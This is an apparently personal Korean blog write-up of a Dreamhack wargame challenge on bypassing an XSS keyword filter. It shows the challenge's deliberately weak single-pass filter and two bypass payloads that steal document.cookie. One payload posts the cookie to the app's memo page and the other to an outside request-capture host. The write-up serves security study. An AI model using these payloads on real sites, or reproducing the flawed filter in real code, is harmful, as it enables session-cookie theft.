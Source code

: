 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass
- [x] xss filtering bypass advanced

# Web Hacking [함께실습] xss filtering bypass


## 웹 서비스 분석
### 엔드포인트 : /vuln

이용자가 전달한 param 파라미터 값 출력

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

xss_filter : XSS 취약점을 막으려는 시도 / script, on, javascript 필터링

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

### 엔드포인트 : /memo

이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록 / 출력

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

### 엔드포인트 : /flag

1) GET : 이용자에게 URL을 입력받는 페이지 제공
2) POST : param에 값과 쿠키에 flag를 포함하여 check_xss 함수 호출

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

## 취약점 분석 / 익스플로잇

### 취약점 분석 

vuln , memo 엔드포인트는 이용자의 입력값을 페이지에 그대로 출력하며, memo는 render_template 을 통해 memo.html을 출력한다. render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기에, XSS 취약점이 발생하지 않는다. 그러나, vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기에 XSS 취약점이 발생할 수 있다. 

filter_xss 함수를 통해 script, on, javascript 총 세 개의 키워드를 필터링하나, 키워드를 한 번만 제거하기에, 쉽게 우회 가능하다

### 익스플로잇

location.href : 전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성
document.cookie : 해당 패이지에서 사용하는 쿠키를 읽고, 쓰는 속성

```javascript
<scronipt>document.locatioonn.href = "/memo?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/23ㄹ.png">

```javascript
<scronipt>document['locatio'+'n'].href = "http://kyjwjya.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```

<img src="/images/wargame/22.png">

# Web Hacking [혼자실습] xss filtering bypass advanced

못 품

